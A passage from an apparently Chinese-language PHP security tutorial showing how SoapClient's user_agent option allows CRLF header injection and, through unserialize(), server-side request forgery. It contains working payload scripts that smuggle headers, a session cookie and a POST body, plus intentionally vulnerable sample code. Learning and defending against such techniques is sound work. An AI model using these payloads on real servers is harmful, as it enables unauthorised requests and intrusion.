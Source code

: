 利用crlf漏洞构造payload
```php
<?php
$target = "http://localhost/test.php";
$post_string = 'data=abc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1'
    //cookie等参数
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>"diego\r\nContent-Type: application/x-www-form-urlencoded\r\n".join("\r\n",$headers)."\r\nContent-Length: ". (string)strlen($post_string)."\r\n\r\n".$post_string,'uri'=>'hello'));

$result =  $b->__soapCall('greet', [
    new SoapParam('Suhua', 'name')]);//为了发送随意构造的
?>
```
请求如下，被拆成多个包，有正常的有错误的，响应也同样存在200 和400
![JDHFkq.png](https://s1.ax1x.com/2020/04/24/JDHFkq.png)

### ② 利用反序列化 进行 SSRF

假设存在如下代码 利用对SoapClient反序列化 从而能达到ssrf
```php
<?php
class test
{
  public $name = "abc";
  function show()
  {
    var_dump();
  }
}
$a = unserilize($_GET["test"]);
$a->show();
?>
```

反序列化之后，在调用任意方法，再结合crlf即可发送我们想要请求，进而达到ssrf
![JDLung.png](https://s1.ax1x.com/2020/04/24/JDLung.png)

借鉴个构造脚本
```php
<?php
$target = "http://example.com:5555/";
$post_string = 'data=abc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'Diego^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string,'uri'=>'hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
echo urlencode($aaa);
?>
```
### ③ 代码注入
